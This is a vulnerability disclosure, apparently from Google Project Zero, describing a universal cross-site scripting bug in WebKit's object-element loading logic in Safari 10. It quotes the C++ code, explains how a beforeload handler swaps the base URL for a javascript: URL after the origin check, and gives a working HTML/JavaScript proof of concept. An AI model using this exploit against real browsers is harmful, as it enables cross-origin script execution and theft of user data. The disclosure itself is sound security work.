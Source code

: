 # UXSS through HTMLObjectElement::updateWidget

## Reported by <mailto:lokihardt@google.com>, Feb 9 2017

When an object element loads a JavaScript URL(e.g., `javascript:alert(1)`), it checks whether it violate the Same Origin Policy or not.

Here's some snippets of the logic.

```cpp
void HTMLObjectElement::updateWidget(CreatePlugins createPlugins)
{
    ...
    String url = this->url();
    ...
    if (!allowedToLoadFrameURL(url))
        return;
    ...

    bool beforeLoadAllowedLoad = guardedDispatchBeforeLoadEvent(url);
    ...

    bool success = beforeLoadAllowedLoad && hasValidClassId();
    if (success)
        success = requestObject(url, serviceType, paramNames, paramValues);
    ...
}

bool HTMLPlugInImageElement::allowedToLoadFrameURL(const String& url)
{
    URL completeURL = document().completeURL(url);
    if (contentFrame() && protocolIsJavaScript(completeURL) && !document().securityOrigin().canAccess(contentDocument()->securityOrigin()))
        return false;
    return document().frame()->isURLAllowed(completeURL);
}

bool HTMLPlugInElement::requestObject(const String& url, const String& mimeType, const Vector<String>& paramNames, const Vector<String>& paramValues)
{
    if (m_pluginReplacement)
        return true;

    URL completedURL;
    if (!url.isEmpty())
        completedURL = document().completeURL(url);

    ReplacementPlugin* replacement = pluginReplacementForType(completedURL, mimeType);
    if (!replacement || !replacement->isEnabledBySettings(document().settings()))
        return false;

    LOG(Plugins, "%p - Found plug-in replacement for %s.", this, completedURL.string().utf8().data());

    m_pluginReplacement = replacement->create(*this, paramNames, paramValues);
    setDisplayState(PreparingPluginReplacement);
    return true;
}
```

The SOP violation check is made in the method `HTMLPlugInImageElement::allowedToLoadFrameURL`.

What I noticed is that there are two uses of `document().completeURL` for the same URL, and the method guardedDispatchBeforeLoadEvent dispatches a beforeloadevent that may execute JavaScript code after the SOP violation check. So if the base URL is changed like "javascript:///%0aalert(location);//" in the event handler, a navigation to the JavaScript URL will be made successfully.

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<html>

<head>
</head>

<body>
  <script>
    let o = document.body.appendChild(document.createElement('object'));
    o.onload = () => {
      o.onload = null;

      o.onbeforeload = () => {
        o.onbeforeload = null;

        let b = document.head.appendChild(document.createElement('base'));
        b.href = 'javascript:///%0aalert(location);//';
      };
      o.data = 'xxxxx';
    };

    o.type = 'text/html';
    o.data = 'https://abc.xyz/';
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1120
